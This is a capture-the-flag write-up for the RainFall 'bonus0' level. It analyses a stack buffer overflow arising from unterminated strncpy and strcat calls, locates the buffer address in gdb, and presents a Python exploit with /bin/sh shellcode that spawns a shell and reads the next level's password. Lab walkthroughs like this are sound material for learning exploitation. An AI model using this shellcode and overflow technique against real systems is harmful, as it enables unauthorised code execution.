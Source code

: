 Here, we need to change the return address, to execute some code.

1. Issues in the code
What we can see is that the `str` is 42 bytes long.

The `p` function read too much bytes compared to what it needs,
and does not terminate with `\0` the string that it just read.

Then, it'll `strncpy` the input buffer into a temporary `str2` variable.

That variable limited to 20 caracters will receive a non-null terminated string into it.
`strncpy` will not add at the end of the string the `\0` itself.

Then, we have the same thing again with the `str3` variable.

After that, we are calling: `strcpy(str, str2);`.

This is interesting because in memory, the `str2` is literraly equals to 2 times 20 bytes of data,
were the 20 first bytse are the "real" str2, and the 20 last are the "real" str3.

So at that point, `str` will hold 40 bytes.

```c
char *end = (str + strlen(str));
*end = ' ';
*(end + 1) = 0;
```
Then, it'll replace the `\0` by a space, and add another `\0` character.

At the end, it'll `strcat` again, to `str` the content of `str3`.

Which means that'll have at the end 61 bytes, in a 42 bytes allocation.:
`[str2 - 20B][str3 - 20B][' '][str3 - 20B]\0`

2. Possibilities:
It's "not large enough" to do a `ret2libc`, because:

The `str3` had to begin with 9 bytes of padding to compensate the
8 bytes of stack alignment at the start of the program, and one byte to
fill the 42-bytes long stack allocation of `str`.

Then, we need 4 bytes for the `system` function address.
4 bytes for the fake return address.
And finally, 4 bytes for the `/bin/sh`.

Factually, this means 12 bytes for the attack, and 9 bytes of padding,
so 21 bytes on the 20 that we can set.

We could have tried adding an `\0` from `strcat` to `str`,
which would have saved us 1 byte, but none of str's addresses are aligned to 256.

So, we need to set a shell code in our `buff` of the `p` function.

3. Locate the good `buff` address:

So as mentionned earlier, we need to have:
`[padding - 9B][return address - 4B]`
So 15 bytes more than `buff` location. But to avoid bad alignment, we'll add more NOP byte.

To get the `buff` address, we can do:
```
(gdb) set disassembly-flavor intel 
(gdb) disas p
[...]
   0x080484d6 <+34>:    mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:    mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
[...]
```
So the address is stored in `eax`.

```
(gdb) b *p + 34
Breakpoint 1 at 0x80484d6
(gdb) r
Breakpoint 1, 0x080484d6 in p ()
(gdb) x/x $eax
0xbfffe680:     0x00000000
```

The `buff` address is `0xbfffe680`, and we need to point: `0xbfffe690`.

3. Exploit:

We'll take again the shell code from the previous exersise.
We need the 9 bytes padding first, then the shell code address,
then 4 bytes for the return address, and 3 bytes to
fill the missing space and align our memory.

Because of some weird protection, I had to add 8 bytes more than
what I was expecting for. Probably because of the stack aligment.

Then we put the shell code, and pad the rest.

```py
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f" \
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd" \
"\x80"

shellcode_address = "\x9c\xe6\xff\xbf"

print("A" * 4095)
print("\x90" * 9 + shellcode_address + "\x90" * (7+8) + shellcode + "\x90" * (4095 - 9 - 4 - 7 - 8 - len(shellcode)))
```

> Be aware of having the same amount of environment variables as in `gdb`
> when you use the exploit.
> You can use the `script.sh` provided.

```sh
bonus0@RainFall:~$ (python /tmp/exploit2.py; cat -) | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAA����������������������� �����������������������
cd ../bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
